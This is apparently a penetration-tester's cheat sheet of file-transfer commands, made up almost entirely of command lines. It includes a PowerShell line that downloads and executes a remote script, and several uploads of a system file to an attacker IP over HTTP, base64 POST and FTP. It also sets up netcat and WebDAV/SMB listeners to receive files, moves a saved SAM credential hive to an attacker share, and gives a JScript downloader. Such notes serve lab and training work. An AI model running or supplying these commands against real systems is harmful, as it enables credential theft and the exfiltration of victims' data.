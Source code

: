 #### PowerShell Script to Upload a File to Python Upload Server
- `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
- `Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`

## PowerShell Base64 Web Upload
- `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
- `Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`

- `nc -lvnp 8000`

- `echo <base64> | base64 -d -w 0 > hosts`

## SMB Uploads
### Using the WebDav Python module
- `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`

### Connecting to the Webdav Share
- `dir \\192.168.49.128\DavWWWRoot`

### Uploading Files using SMB
- `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\`

### Creating a Share with smbserver.py
- `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/`

#### Upload to Attack 
- `move sam.save \\10.10.15.16\CompData`

## FTP Uploads
- `sudo python3 -m pyftpdlib --port 21 --write`

### PowerShell Upload File
- `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`

# Transferring Files with Code
## JavaScript
```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
